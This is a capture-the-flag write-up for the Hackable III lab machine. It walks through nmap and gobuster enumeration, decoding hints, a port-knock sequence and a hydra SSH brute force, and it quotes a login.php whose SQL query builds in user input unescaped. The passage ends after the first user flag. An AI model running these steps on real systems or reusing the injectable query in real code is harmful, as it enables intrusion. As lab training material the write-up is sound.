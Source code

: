 # 🔐 Hackable III Write Up

### **Description** Focus on general concepts about CTF
Difficulty: Medium

### Phase 1: Reconnaissance
Gettting the ip address of the target machine using arp-scan

![ip address](screenshots/ip.png)

> Target ip -> 192.168.100.7

### Phase 2: Network Scanning and Enumeration

```bash
                                                                                                               
┌──(kali㉿kali)-[~]
└─$ nmap -sV 192.168.100.7
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-09 04:16 EDT
Nmap scan report for 192.168.100.7
Host is up (0.0021s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE    SERVICE VERSION
22/tcp filtered ssh
80/tcp open     http    Apache httpd 2.4.46 ((Ubuntu))
MAC Address: 08:00:27:07:12:B6 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.99 seconds

```
Here ssh port is in filtered state and only 80 is open, lets try to use port 80 http service in browser

I pasted the target ip in browser, but on webpage nothing interesting, now i will be usign Go Buster to get the hidden endpoints using gobuster dir method and a kali wordlist

```bash
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u 192.168.100.7 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.100.7
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/css                  (Status: 301) [Size: 312] [--> http://192.168.100.7/css/]
/js                   (Status: 301) [Size: 311] [--> http://192.168.100.7/js/]
/config               (Status: 301) [Size: 315] [--> http://192.168.100.7/config/]
/backup               (Status: 301) [Size: 315] [--> http://192.168.100.7/backup/]
/imagens              (Status: 301) [Size: 316] [--> http://192.168.100.7/imagens/]
/login_page           (Status: 301) [Size: 319] [--> http://192.168.100.7/login_page/]
/server-status        (Status: 403) [Size: 278]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================

```
Lets Enumurate each endpoint we got in result

On / soource code, I got the following hint:
hint:  

"Please, jubiscleudo, don't forget to activate the port knocking when exiting your section, and tell the boss not to forget to approve the .jpg file - dev_suport@hackable3.com" -->

Here **jubiscleudo** can be a username which we can use further

On http://192.168.100.7/css/2.txt I got 2.txt which has following content:
    -> ++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>------------------....
Now this is a brainfuck encoded string, so i used [decoder](https://www.dcode.fr/brainfuck-language) to decoded the string and got the following: **4444**


/js only has a javascript file without any interesting code

/config -> http://192.168.100.7/config/1.txt I got 1.txt file and it has a base64 encoded string, **MTAwMDA=** after decoding -> **10000**

/backup
![wordlist](screenshots/wordlist.png)
Here I got the wordlist.txt which we can use for bruteforce attack, I has around 300 words.

/imagens -> Nothing Interesting, just images
/login_page:
![login_page](screenshots/login.png)

I got the login page and when I try the random crrdentials it takes to a php page that is login.php and I got the following source code:

```php
<?php
include('config.php');
$usuario = $_POST['user'];
$senha = $_POST['pass'];

$query = " SELECT * FROM usuarios WHERE user = '{$usuario}' and pass = '{$senha}'";  

$result = mysqli_query($conexao, $query);

$row = mysqli_num_rows($result);

#validaÃ§Ã£o conta
if($row == 1) {
	$_SESSION['usuario'] = $usuario;
	header('Location: 3.jpg');
	exit();
} else {
	$_SESSION['nao_autenticado'] = true;
	header('Location: login_page/login.html');
	exit();
}
?>

```

Something sql related query is their, but I got a hint in this code, that is `header('Location: 3.jpg')`, I got confused why it is a image used in header, but its a hint

So lets try to get, the image
![steg image](screenshots/image.png)

Here we got our image, now I will use [Steghide tool](https://www.kali.org/tools/steghide/) to get the hidden data inside the image

![hidden image data](screenshots/steg.png)
So it says porta:65535 which means it is a port number and other number which we got earlier are also some ports.

So after searching, I got to know about the port knocking service wherein we have to knock a sequence of port to set the port open

I used this command:
```bash
knock 192.168.100.7 10000 4444 65535
```

![ssh port opens](screenshots/nmap_2.png)

So here ssh port is now open, we can use hydra for bruteforce attack and wordlist we got in /backups/

```bash
hydra -l jubiscleudo -P wordlist.txt ssh://192.168.100.7
```

![ssh cracked](screenshots/brute.png)

### Now lets login with the credentials to ssh

![Flag 1](screenshots/flag_1.png)

### User Flag one is here...

Lets Enumerate more and see for root privilege, but this user jubiscleudo does not have sudo privilege, so I checked in /home and got one more user hackable_3


